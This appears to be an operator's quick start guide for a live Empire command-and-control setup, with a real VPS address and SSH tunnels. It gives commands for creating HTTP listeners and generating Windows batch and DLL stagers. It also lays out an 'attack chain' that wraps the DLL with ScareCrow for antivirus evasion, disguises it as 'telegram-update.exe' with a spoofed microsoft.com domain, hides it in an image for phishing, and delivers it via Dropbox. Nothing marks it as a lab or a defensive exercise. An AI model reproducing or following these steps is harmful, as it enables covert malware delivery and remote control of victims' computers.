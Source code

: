 # 🚀 Empire C2 - QUICK START GUIDE

## ✅ CURRENT STATUS (WORKING!)

- **Empire Server**: Running locally in Docker
- **Starkiller UI**: https://161-35-155-3.sslip.io ✅
- **Empire API**: http://127.0.0.1:1337 (forwarded to VPS)
- **SSH Tunnels**: Active and working

## 🌐 ACCESS POINTS

### Starkiller Web UI
```
URL: https://161-35-155-3.sslip.io
```

### Empire API (Local)
```
URL: http://127.0.0.1:1337/api/v2/
```

### Empire API (Via VPS)
```
URL: https://161-35-155-3.sslip.io/api/
Auth: Basic Auth (configured in nginx)
```

## 🔧 EMPIRE COMMANDS

### Access Empire CLI
```bash
# Enter Docker container
docker exec -it empire bash

# Inside container, start Empire CLI
cd /opt/Empire
python3 empire.py client
```

### Check Empire Status
```bash
# Check if Empire is running
docker ps | grep empire

# Check Empire logs
docker logs empire

# Restart Empire
docker restart empire
```

## 📡 CREATE LISTENERS

```python
# Access Empire client
docker exec -it empire python3 /opt/Empire/empire.py client

# Once in Empire CLI:
uselistener http
set Name main_listener
set Host https://161-35-155-3.sslip.io
set Port 443
set DefaultProfile /admin/get.php,/news.php,/login/process.php|Mozilla/5.0
execute

# Verify
listeners
```

## 🎯 GENERATE STAGERS

```python
# Windows PowerShell Stager
usestager windows/launcher_bat
set Listener main_listener
set OutFile /tmp/launcher.bat
execute

# Windows DLL (for ScareCrow)
usestager windows/dll
set Listener main_listener  
set OutFile /tmp/empire.dll
execute

# Copy from container to host
```

```bash
# From host (outside container)
docker cp empire:/tmp/launcher.bat ./stagers/
docker cp empire:/tmp/empire.dll ./stagers/
```

## 🔐 DEFAULT CREDENTIALS

Check inside Empire container:
```bash
docker exec -it empire cat /root/.local/share/powershell-empire/config.yaml | grep -A 5 defaults
```

## 🛠️ TROUBLESHOOTING

### Starkiller Won't Load
```bash
# Check nginx on VPS
ssh root@161.35.155.3 "systemctl status nginx"

# Check SSH tunnels are running
ps aux | grep "ssh.*1337"
```

### Empire API Not Responding
```bash
# Check Empire is running
docker ps | grep empire

# Check logs
docker logs empire --tail 50

# Restart if needed
docker restart empire
```

### Can't Connect to Listeners
```bash
# Verify listener is active in Empire
docker exec -it empire python3 /opt/Empire/empire.py client
# Then: listeners

# Check firewall on VPS
ssh root@161.35.155.3 "ufw status"
```

## ⚡ QUICK ACTIONS

### Create Complete Attack Chain
```bash
# 1. Create listener (see above)
# 2. Generate DLL stager
# 3. Process with ScareCrow
cd /home/kali/ScareCrow
./ScareCrow -I ./stagers/empire.dll -Loader binary -domain microsoft.com -O payloads/telegram-update.exe

# 4. Embed in image
cd /home/kali/Main\ C2\ Framework/advanced-steganography-phishing
python3 large-stego-system.py embed --payload payloads/telegram-update.exe --output output/

# 5. Upload to Dropbox
# 6. Update Cloudflare Worker URLs
# 7. Test!
```

## 📱 USEFUL COMMANDS

```bash
# Check what's running on ports
netstat -tulpn | grep -E '1337|5000'

# Check Docker containers
docker ps -a

# View Empire logs live
docker logs -f empire

# SSH to VPS
ssh root@161.35.155.3

# Check SSH tunnels
ps aux | grep ssh | grep 1337
```

## 🎯 NEXT STEPS

1. ✅ Empire is running
2. ✅ Starkiller is accessible
3. ⏳ Create HTTP/HTTPS listeners
4. ⏳ Generate stagers
5. ⏳ Integrate with ScareCrow
6. ⏳ Test agent check-in

---

**Everything is ready to go - just create listeners and stagers now!**

